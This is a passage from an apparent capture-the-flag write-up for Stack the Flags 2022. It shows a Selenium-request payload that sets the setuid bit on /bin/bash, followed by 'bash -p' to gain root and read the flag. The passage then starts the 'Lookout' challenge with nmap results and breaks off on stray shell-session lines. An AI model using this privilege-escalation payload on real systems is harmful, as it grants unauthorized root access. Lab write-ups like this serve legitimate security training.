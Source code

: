 ```http
                "args": ["-cimport os;os.system(’chmod u+s /bin/bash’)"]
            }
        }
    }
}
```

After making the request, we can see in the UI that our request is in queue.

![A screenshot of the Selenium Web queue that shows our payload](/static/images/stack-the-flags-2022/selenium-web-queue.png)

Once it disspears from the queue, it means it’s finished.

We can go back to the remote machine and check

```
john@electrogrid:/dev/shm$ ls -la /bin/bash           ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

And it worked!

```
john@electrogrid:/dev/shm$ /bin/bash -p               /bin/bash -p
/bin/bash -p
id
uid=1000(john) gid=1000(john) euid=0(root) groups=1000(john)
cat /root/root.txt
STF22{bbe7145febbce7ddd4dd3e22a37e93d1}
```

And thats it for this one!

## Lookout (Fullpwn, 2000 Points)

Note: This will be a short writeup as I used two unintended ways to get system on the machine

### Enumeration

I’ll start with an `nmap` scan with the usual options

```
Discovered open port 80/tcp on 10.129.254.249
Discovered open port 135/tcp on 10.129.254.249
Discovered open port 445/tcp on 10.129.254.249
Discovered open port 139/tcp on 10.129.254.249
Discovered open port 53/tcp on 10.129.254.249
Discovered open port 3269/tcp on 10.129.254.249
Discovered open port 389/tcp on 10.129.254.249
Discovered open port 88/tcp on 10.129.254.249
Discovered open port 636/tcp on 10.129.254.249
Discovered open port 3268/tcp on 10.129.254.249
Discovered open port 593/tcp on 10.129.254.249
Discovered open port 464/tcp on 10.129.254.249
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname